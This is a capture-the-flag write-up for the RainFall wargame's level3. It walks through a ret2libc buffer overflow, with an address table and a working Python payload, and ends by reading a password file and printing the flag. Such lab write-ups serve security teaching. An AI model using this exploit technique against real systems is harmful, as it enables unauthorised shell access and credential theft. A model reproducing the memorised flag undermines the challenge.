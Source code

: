 # level3

In this level, we have to make a ret2libc, it consist of overwritting the eip address to execute sh

We will inject some instructions after the overflow (80)

```bash
python -c "print('a' * 80 + '<injections>')
```

Let's see the detailled explainations of the [gdb part](gdbwriteup.md) to have more information of the address that we will inject


|  function  |  address   |
|   -------  |  --------  |
|  ret       | 0x0804854b |
|  system    | 0xb7e6b060 |
|  exit      | 0xb7e5ebe0 |
|  /bin/sh   | 0xb7f8cc58 |

We will trigger our ret, use the system call followed by an exit and finally we will inject `/bin/sh` to our eip

```bash
level2@RainFall:~$ (python -c "print('a' * 80 + '\x4b\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')";cat) | ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaKaaaaaaaaaaaaK`�����X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02